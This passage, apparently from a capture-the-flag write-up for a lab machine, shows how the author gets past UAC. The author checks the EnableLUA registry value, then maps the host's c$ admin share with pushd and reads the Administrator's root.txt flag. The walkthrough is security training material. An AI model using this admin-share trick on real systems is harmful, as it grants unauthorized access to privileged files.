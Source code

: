 ### Unintended way to get access to the Administrator user directory

I can't get to the Administrator directory because UAC is enabled.

With Powershell I can check the status of UAC and see that it is enabled:

```
PS C:\Users\Batman\Documents> (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).EnableLUA
1
```

For some reason, if I use UNC paths I can access to the administrator directory... So this is probably unintended by the box creator but it does get me the flag :)

```
C:\Users\Batman\Documents>pushd \\10.10.10.130\c$

Z:\>cd \users\administrator\desktop

Z:\Users\Administrator\Desktop>dir
 Volume in drive Z has no label.
 Volume Serial Number is FA90-3873

 Directory of Z:\Users\Administrator\Desktop

02/03/2019  09:32 AM    <DIR>          .
02/03/2019  09:32 AM    <DIR>          ..
02/03/2019  09:32 AM                70 root.txt
               1 File(s)             70 bytes
               2 Dir(s)   8,710,045,696 bytes free

Z:\Users\Administrator\Desktop>type root.txt
type root.txt
636783...
```
